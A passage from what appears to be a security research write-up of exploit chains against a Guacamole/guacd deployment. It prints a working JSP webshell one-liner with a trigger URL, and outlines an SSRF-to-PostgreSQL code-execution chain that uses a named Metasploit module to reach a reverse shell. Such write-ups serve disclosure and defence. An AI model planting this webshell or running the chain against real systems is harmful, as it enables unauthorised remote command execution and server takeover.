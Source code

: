 ```md
<%= new java.util.Scanner(Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream()).useDelimiter("YOLO").next() %>

bar

# Trigger webshell
http://127.0.0.1:8080/rce.jsp?cmd=id
```


## Exploit chain 2 - PostgreSQL RCE through the trusted SSRF access

Use the SSRF to reach postgres, benefiting from the fact that postgres trusts requests coming from the loopback to the loopback. 

No good-looking demo here as the automation part will be detailed in the next blogpost, but it goes like this: 

1. Login
1. Create a telnet connection to postgreSQL (5432)
1. Use the SSRF and copy paste feature to replay the bytes from...
1. The Metasploit module `multi/postgres/postgres_copy_from_program_cmd_exec`, or any other way to execute code with postgres
1. Enjoy your reverse shell/meterpreter/duck (pick one)

This works for the following reasons: 

- No restriction is made on the host nor port guacd can use
- It is possible (yet tricky) to send raw bytes with the guacamole websocket (wait for the next blogpost!)
- The link to postgreSQL is trusted (see `pg_hba.conf` and `postgresql.conf`), thus requires no challenge-response

Here is an example showing that a simple stateless raw byte replay is enough if the link is trusted. 

<img class="img_full" src="postgres-rawbytes.png" alt="postgres-rawbytes">



## Exploit chains 3,4,5,6,7,8,*
